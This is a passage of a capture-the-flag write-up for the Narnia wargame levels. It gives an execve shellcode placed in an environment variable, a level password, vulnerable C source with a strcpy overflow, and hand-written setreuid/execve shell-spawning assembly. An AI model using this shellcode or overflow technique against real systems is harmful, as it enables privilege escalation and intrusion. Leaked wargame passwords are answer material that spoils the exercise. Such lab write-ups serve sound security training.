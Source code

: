 
To solve this exercise you need to put the shellcode in the env var EGG.


```bash
$ export EGG=$(python -c 'print "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')
```


##### PASS=nairiepecu





------------------------------------------------------------------------------------------------------------------------------------

## narnia2 -> narnia3

```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
	char buf[128];

	if(argc == 1){
		printf("Usage: %s argument\n", argv[0]);
		exit(1);
	}
	strcpy(buf,argv[1]);
	printf("%s", buf);

	return 0;
}
```

Here we have a classic BO (remember we have no ASLR and NX bit disabled). I approached this challenge by doing a ret2libc attack, but the shell spawned by this attack simply does not have narnia3 suid permission so we have to call setreuid with id of narnia3 user found in /etc/passwd.

narnia3 user id is 14003, so i could do a ret2libc composed by a call to setreuid and then a system bash. Alternatively is possible to perform a ropchain. 
I decided to exploit this challenge by making my own shellcode.

```assembly
xor    %ebx,%ebx  # \x31\xdb  
lea    0x17(%ebx),%eax # \x8d\x43\x17           
int    $0x80 # \xcd\x80 
push   %ebx # \x53                           
push   $0x68732f6e # \x68\x6e\x2f\x73\x68       
push   $0x69622f2f # \x68\x2f\x2f\x62\x69      
mov %esp,%ebx # \x89\xe3               
push %eax # \x50                              
push %ebx # \x53                              
mov %esp,%ecx # \x89\xe1                
cltd # \x99                                     
mov $0xb,%al # \xb0\x0b                       
int $0x80 # \xcd\x80  
```
